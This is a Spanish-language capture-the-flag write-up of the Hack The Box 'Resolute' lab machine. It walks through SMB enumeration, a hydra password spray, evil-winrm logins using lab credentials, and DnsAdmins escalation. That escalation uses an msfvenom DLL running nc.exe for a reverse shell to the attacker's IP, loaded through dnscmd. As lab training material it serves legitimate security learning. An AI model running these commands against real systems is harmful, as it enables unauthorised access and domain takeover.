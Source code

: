 # Resolute

**OS**: Windows \
**Dificultad**: Medio \
**Puntos**: 30

## Resumen
- Enumeración SMB
- BruteForce SMB
- DnsAdmins

## Nmap Scan

`nmap -sC -sV -p- 10.10.10.169`

```
Nmap scan report for 10.10.10.169
Host is up (0.33s latency).
Not shown: 65512 closed ports
PORT      STATE SERVICE      VERSION
53/tcp    open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2019-12-07 20:46:56Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49671/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49688/tcp open  msrpc        Microsoft Windows RPC
49910/tcp open  msrpc        Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=12/7%Time=5DEC0DE6%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h47m57s, deviation: 4h37m09s, median: 7m56s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2019-12-07T12:47:53-08:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2019-12-07T20:47:54
|_  start_date: 2019-12-07T20:15:33

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Dec  7 14:42:08 2019 -- 1 IP address (1 host up) scanned in 1742.14 seconds
```

## Enumeración

Enumeramos el servicio **smb** que corre en los puertos **135, 139 y 445** con la herramienta llamada **enum4linux**.

`enum4linux -a 10.10.10.169`

![1](images/1.png)

Se visualizan unos cuantos usuarios y un password que utilizaremos para hacer fuerza bruta al smb y saber a que usuario pertenece el password utilizando **hydra**.

##### userlist.txt
```
Administrator
DefaultAccount
krbtgt
ryan
marko
sunita
abigail
marcus
sally
fred
angela
felicia
gustavo
ulf
stevie
claire
paulo
steve
annette
annika
per
claude
melanie
zach
simon
naoki
```

`hydra -L userlist.txt -p "Welcome123!" 10.10.10.169 smb`

![2](images/2.png)

Obtenemos un shell con el uso de **evil-winrm**.

`evil-winrm -i 10.10.10.169 -u melanie -p "Welcome123!"`

![3](images/3.png)

## Escalada de Privilegios (User)

Enumerando los directorios nos encontramos con un archivo interesante en el directorio **C:\PSTranscripts\20191203** llamado **PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt**.

- `dir -Force C:\`
- `dir -Force C:\PSTranscripts`
- `dir -Force C:\PSTranscripts\20191203`

![4](images/4.png)

Podemos ver el password del usuario **ryan**.

`type C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt`

![5](images/5.png)

Obtenemos un shell con el uso de evil-winrm.

`evil-winrm -i 10.10.10.169 -u ryan -p "Serv3r4Admin4cc123!" -s resources/`

![6](images/6.png)

## Escalada de Privilegios (Administrator)

Es posible visualizar los grupos a los cuales pertenece el usuario **ryan** y uno muy particular es **MEGABANK\DnsAdmins**.

![7](images/7.png)

Investigando un poco sobre ese grupo llegamos a este [articulo](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise) que nos ayudara a escalar privilegios.

Subimos **nc.exe** al servidor con ayuda de evil-winrm.

`upload resources/nc.exe`

![8](images/8.png)

Creamos nuestra **.dll** maliciosa.

`msfvenom -p windows/x64/exec cmd='C:\Users\ryan\Documents\nc.exe 10.10.14.147 1234 -e cmd.exe' -f dll > addDA.dll`

![9](images/9.png)

Levantamos nuestro servidor smb localmente donde estará nuestra **dll**.

`sudo python smbserver.py -comment 'Dllexploit' DLL /home/marty/htb/Box/Windows/Resolute/resources -smb2support`

![10](images/10.png)

Configuramos el servicio **dns** con **dnscmd.exe**.

`cmd /c dnscmd.exe 10.10.10.169 /config /serverlevelplugindll \\10.10.14.147\DLL\addDA.dll`

![11](images/11.png)

Ponemos a la escucha nuestro netcat.

`rlwrap nc -lvnp 1234`

Detenemos e iniciamos el servicio **dns** con **sc.exe**.

- `cmd /c sc.exe \\10.10.10.169 stop dns`
- `cmd /c sc.exe \\10.10.10.169 start dns`

![12](images/12.png)

Obtenemos reverse shell.

![13](images/13.png)

## Referencias
https://github.com/vanhauser-thc/thc-hydra \
https://github.com/Hackplayers/evil-winrm \
https://github.com/SecureAuthCorp/impacket \
https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise